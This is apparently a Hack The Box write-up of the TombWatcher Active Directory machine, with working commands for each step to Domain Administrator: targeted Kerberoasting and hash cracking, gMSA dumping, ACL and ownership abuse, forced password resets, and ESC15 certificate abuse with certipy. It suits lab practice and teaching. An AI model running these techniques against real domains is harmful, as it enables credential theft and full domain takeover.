# TombWatcher (HTB) Writeup

## Summary
TombWatcher is a medium-difficulty Active Directory machine. The attack chain involved initial enumeration of exposed services, extracting gMSA credentials, abusing AD object ownership and ACL permissions, performing targeted Kerberoasting, and finally exploiting Active Directory Certificate Services (ADCS) misconfigurations (ESC15 / vulnerable templates) to escalate privileges to Domain Administrator. The box combined modern AD techniques with certificate abuse, making it both challenging and realistic.

---

## Nmap Scan
```bash
nmap -sCV 10.10.11.72 -T5 -oN nmap_result
```



**Open Ports:**
- 53/tcp - Domain Name Service (DNS)
- 80/tcp - Microsoft IIS httpd 10.0
- 88/tcp - Kerberos
- 135/tcp - MSRPC
- 139/tcp, 445/tcp - SMB
- 389/tcp, 636/tcp - LDAP / LDAPS
- 3269/tcp - LDAPS Global Catalog
- 5985/tcp - WinRM
- 9389/tcp - Active Directory Web Services

---

## Enumeration & Initial Access

### SMB Enumeration

With the provided credentials for `henry`, we enumerated SMB shares.

`smbmap -H 10.10.11.72 -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'`



We then used smbclient to test access manually:

`smbclient -L //tombwatcher.htb -U henry`



Shares were visible, but sensitive shares like NETLOGON and SYSVOL were not accessible for reading.

### Bloodhound Enumeration

To gather AD information, I ran BloodHound collection using Henry’s credentials:

`bloodhound-python -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb -ns 10.10.11.72 -c all --zip`

Loading the results into BloodHound to visulize the connections between users and groups.



Upon analysis, we discovered `Henry` had WriteSPN over `Alfred` .



### Targeted Kerberoast 

Now, BloodHound showed that WriteSPN, is a service principal that could be modified to request Kerberos tickets.



I cloned the targetedKerberoast tool and ran it against the domain using the provided `Henry`. This script automates the modification of SPNs and collects the resulting TGS hashes.



The tool added an SPN and printed the captured TGS hash for `Alfred` (saved to alfred.tgs):



I used hashcat to crack the captured Kerberos ticket hash (mode 13100) with a common wordlist:

```bash
hashcat -m 13100 alfred.tgs /usr/share/wordlists/rockyou.txt --status --status-timer=10 --outfile=alfred_cracked.txt --outfile-format=2
```



We now know that the password for alfred is `basketball`



### Use addself to escalate into a priviledged group

The BloodHound graph showed that `Alfred` has an AddSelf ACL on the `INFRASTRUCTURE` group — this means Alfred can add himself (or another account) to that group.





First attempt used net rpc from a low-privileged context; it failed due to access restrictions:



Using bloodAD (which leverages credentials / techniques available to us) successfully added `Alfred` to the `INFRASTRUCTURE` group:



Confirm this with using bloodyAD get membership



Then re-run BloodHound collection & upload.





### Read GMSA password & use to escalate

BloodHound pathfinding showed `INFRASTRUCTURE` → `ANSIBLE_DEV$` with GMSAPassword readable. I used gMSADumper to dump the GMSA password.





Let's goo, now we have the LM Hash for the ansible_dev$



### ForceChangePassword (Privilege Escalation)

BloodHound revealed that the machine account `ANSIBLE_DEVS$` has the ForceChangePassword permission over the user `SAM`.



Using bloodyAD with the ANSIBLE_DEVS$ account hash, we successfully reset SAM’s password to newP@ssword2022.

```bash
bloodyAD --host 10.10.11.72 -d tombwatcher.htb \
  -u "ansible_dev$" -p ':4f46405647993c7d4e1dc1c25dd6ecf4' \
  set password SAM "newP@ssword2022"

```



### WriteOwner Edge

BloodHound identified that `Sam` has WriteOwner rights over the `John` user object.





#### 1) owneredit.py → make sam owner of john

Using owneredit.py, sam can successfully set themselves as the new owner of John’s AD object.



#### 2) dacledit.py → give sam FullControl on john

Using dacledit.py , we adds an ACE granting sam FullControl on john. FullControl lets sam read/modify attributes (including servicePrincipalName), reset passwords, add/remove group memberships, etc.



#### 3) targetedKerberoast.py → request TGS for john

We can then requests a Kerberos service ticket (TGS) for John to return an encrypted TGS that's contain John account’s NTLM/NT hash.



I tried to crack the hash using `hashcat` and `rockyou.txt` but failed miserabely...



Therefore, let's change our method to change the initial password of john using `bloodyAD`.



BloodHound identified that `John` is in 2 groups (Remote Management Users, Domain Users). This shows that we can use the `John` credential to perform an interactive remote Windows shell.



Using evil-winrm we connect to the server as `John`.



Now, in the user desktop we got the `user.txt` flag,confirming an initial user-level compromise.



We then tried to attempts to access the Administrator profile but were denied, indicating further privilege escalation is required to obtain the root flag.



---

## Privilege Escalation
BloodHound showed that John had **GenericAll** over ADCS and cert_admin.


#### 1) Enumerate CA / templates with certipy

We tried to use certipy-ad to enumerate certificate authorities and templates on the domain for user `John`. But there is no vulnerability found to escalate to administrator.

```bash
certipy-ad find -u john -p john123 -dc-ip 10.10.11.72 -vulnerable
```



#### 2) Modify AD ACL to grant john control over the ADCS OU

Using dacledit.py, we can add a FullControl ACE for john on the OU=ADCS container so john can change/restore objects under that OU.

```bash
python dacledit.py -action write -rights 'FullControl' -inheritance -principal 'john' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' tombwatcher.htb 'john':'john123'
```



#### 3) Find deleted AD objects (recoverable objects) from the recycle bin

On the compromised host we queried AD’s deleted objects (AD Recycle Bin) and found multiple users deletions.

```bash
Get-ADObject -ldapFilter:"(msDS-LastKnownRDN=*)" -IncludeDeletedObjects
```



#### 4) Restore the deleted cert_admin object and re-enable the account

We restored and enabled the deleted `cert_admin` account:

```bash
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
Enable-ADAccount -Identity cert_admin
```



#### 5) Verify cert_admin is present in the domain

```bash
net user /domain
```



#### 6) Reset cert_admin password from the attacker host

Used bloodyAD to set a new password for cert_admin:

```bash
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u john -p 'john123' set password cert_admin "admin123"
```



---

### ADCS Exploitation
With `cert_admin`, we enumerated vulnerable certificate templates using **Certipy**.

```bash
certipy-ad find -u cert_admin -p admin123 -dc-ip 10.10.11.72 --vulnerable
```



The **WebServer** template was vulnerable to **ESC15**.



**ESC15 (CVE-2024-49019)**. Unpatched V1 CAs can copy attacker-supplied Application Policies / EKUs from a CSR into the issued certificate, allowing an attacker to force a certificate to include client-authentication capabilities or a forged identity (UPN/SID)



We requested a certificate for Administrator:

```bash
certipy-ad req -u cert_admin -p admin123 -dc-ip 10.10.11.72 -target dc01.tombwatcher.htb -ca 'tombwatcher-CA-1' -template 'WebServer' -upn administrator@tombwatcher.htb -application-policies 'Client Authentication'
```





Used the certificate to authenticate as Administrator:

```bash
certipy-ad auth -u administrator -pfx administrator.pfx -dc-ip 10.10.11.72 -domain tombwatcher.htb
```
## Root Shell & Flag
We authenticated as Administrator with Evil-WinRM and grabbed **root.txt**:

```bash
evil-winrm -i 10.10.11.72 -u administrator -H <NTLM_hash>
```





## Pwned


---

## Conclusion
The TombWatcher machine demonstrated a realistic AD exploitation path:
1. Enumeration → gMSA extraction.
2. Password resets via ACL abuse.
3. Targeted Kerberoasting → cracking.
4. Privilege escalation with ADCS exploitation (ESC15).
5. Full domain compromise with Administrator access.

---

s